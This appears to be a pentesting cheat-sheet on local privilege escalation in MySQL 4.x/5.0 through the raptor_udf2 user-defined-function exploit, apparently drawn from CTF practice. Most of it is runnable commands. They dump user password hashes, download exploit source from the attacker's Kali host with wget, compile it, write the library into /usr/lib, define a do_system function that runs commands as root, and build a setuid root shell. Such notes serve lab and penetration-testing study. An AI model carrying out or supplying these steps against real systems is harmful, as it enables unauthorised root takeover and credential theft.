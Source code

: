 # Privilege Escalation -  MySQL 4.x/5.0

* [MySQL 4.x/5.0 - User-Defined Function (UDF) Local Privilege Escalation Exploit (Linux)](https://www.exploit-db.com/exploits/1518/)
* [https://wg135.github.io/blog/2016/08/12/lord-the-root/](https://wg135.github.io/blog/2016/08/12/lord-the-root/)

### Local Enumeration

```bash
# Check the version of MySQL
LinEnum.sh

# Check if MySQL is run by root
ps augxw | grep root | grep mysql

# Get current user (an all users) privileges and hashes
mysql> use mysql;
mysql> select user();
mysql> select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# google vulnerability
MySQL, 5.0.xx privilege escalation
```

### Escalation

```bash
# Get a source code, and then compile it on the target machine
wget http://<Kali IP>/1518.c
mv 1518.c  raptor_udf2.c
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root -p
Enter password:

mysql> use mysql;

mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/j0hn/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('id > /tmp/out; chown j0hn.j0hn /tmp/out');
mysql> \! sh
cat /tmp/out

wget https://github.com/wg135/script/blob/master/suid.c /tmp
exit

mysql> select do_system('gcc -o /tmp/suid /tmp/suid.c');
mysql> select do_system('chmod u+s /tmp/suid');
mysql> \! sh
bash$ ./suid
```
